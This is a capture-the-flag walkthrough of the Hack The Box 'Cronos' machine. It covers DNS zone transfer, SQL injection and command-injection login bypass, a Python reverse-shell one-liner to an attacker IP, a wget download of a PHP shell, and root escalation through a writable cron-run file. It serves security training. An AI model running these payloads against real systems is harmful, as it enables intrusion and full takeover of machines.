 # CRONOS

## NMAP

```bash
                                                                                    
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nmap 10.10.10.13     
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-04 05:44 EDT
Nmap scan report for 10.10.10.13
Host is up (0.18s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.15 seconds
                                                                                    
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nmap 10.10.10.13 -p 22,53,80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-04 05:44 EDT
Nmap scan report for 10.10.10.13
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## ENUMEARTION PORT 53

I used `nslookup` to look for domain name and found one `ns1.cronos.htb`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nslookup                                                                    1 ⨯
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb
```

I tried to use dig for dns zone transfer and found another domain `admin.cronos.htb`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ dig axfr @ns1.cronos.htb cronos.htb

; <<>> DiG 9.16.15-Debian <<>> axfr @ns1.cronos.htb cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 184 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Sep 04 06:18:17 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

## ADMIN.CRONOS.HTB

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos1.png)

I used `sqlmap` to check for any sqli vulnerbilities and found that the username parameter is vulnerable to `sleep based sql injections`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ sqlmap -u http://admin.cronos.htb --forms

...snip...

[06:47:05] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable  
```

Looking for payloads online I found this [resource](https://github.com/payloadbox/sql-injection-payload-list)

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos2.png)

Using `' or sleep(5)#` redirects us to `welcome.php`

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos3.png)

The form is performing `ping -c 1 ` command on the ip we supply to it.

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos4.png)

This can be exploited by using command injections 

Using `| id` executed the id command 

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos5.png)

## USER.TXT

I used `ls /home` to look for users

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos6.png)

Now I tried to read user.txt for user `noulis`

Using command `cat /home/noulis/user.txt`

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos7.png)

## ROOT.TXT

I used `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` as command to get back a revershell.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 55566
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ 
```

Running linpeas I found that `/var/www/laravel/artisan` is run as cronjob.

On doing google search I found this very helpful [article](https://fieldraccoon.github.io/posts/Linuxprivesc/) to gain shell as root.

So we need to upload a reverse shell and change it's name to `artisan` .
Since our reverse shell is also a php file it will be executed and we'll get a shell as root.

I start a http server on my machine using command `python -m SimpleHTTPServer`
and then used the command 'wget http://10.10.14.5:8000/shell.php' to download the shell on out victim machine.

```bash
www-data@cronos:/var/www/laravel$ wget http://10.10.14.5:8000/shell.php
wget http://10.10.14.5:8000/shell.php
--2021-09-04 15:44:35--  http://10.10.14.5:8000/shell.php
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2585 (2.5K) [application/octet-stream]
Saving to: 'shell.php'

shell.php           100%[===================>]   2.52K  --.-KB/s    in 0.001s  

2021-09-04 15:44:35 (2.37 MB/s) - 'shell.php' saved [2585/2585]

www-data@cronos:/var/www/laravel$ cp shell.php artisan
cp shell.php artisan
```

After a minute I get a shell as root on my machine

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nc -lvnp 9999                                                               1 ⨯
listening on [any] 9999 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 43556
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:46:01 up  2:54,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```




